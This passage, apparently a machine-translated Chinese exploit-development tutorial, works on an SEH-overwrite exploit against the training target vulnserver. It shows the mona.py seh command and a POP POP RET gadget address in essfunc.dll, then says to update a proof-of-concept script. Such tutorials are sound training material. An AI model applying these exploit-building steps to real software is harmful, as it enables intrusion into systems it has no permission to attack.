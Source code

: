 没有字节被损坏，我们很好地检查坏字符。

## 寻找流行音乐

对于典型的`SEH`覆盖利用，我们需要找到`POP POP RET`指令小工具。我们将使用 mona.py 的`seh`命令在 vulnserver 应用程序的 dll 中搜索 POP POP RET。首先，将`vulnserver`连接到 WinDbg 并运行以下命令:

```
**### Mona.py Finding "POP POP RET"**
!py mona seh
```

![](img/04281d7d631cad21e27e304c61b3bfc7.png)

mona.py seh 命令结果

```
**0x6250172b** |   0x6250172b : pop edi # pop ebp # ret  | asciiprint,ascii {PAGE_EXECUTE_READ} [essfunc.dll] **ASLR: False, Rebase: False, SafeSEH: False**, OS: False, v-1.0- (C:\Users\bigb0ss\Desktop\software\vulnserver\essfunc.dll)*(*Note: Make sure to choose one with "ASLR: False, Rebase: False and SafeSEH: False")*
```

让我们使用其中一个地址`0x6250172b`，并更新我们的 PoC 脚本。并再次将 vulnserver 附加到 OllyDbg，在`0x6250172b` ( `SEH`)地址设置一个断点。

![](img/e52ba2f3378f3b54d7f4ed2fb34345fb.png)
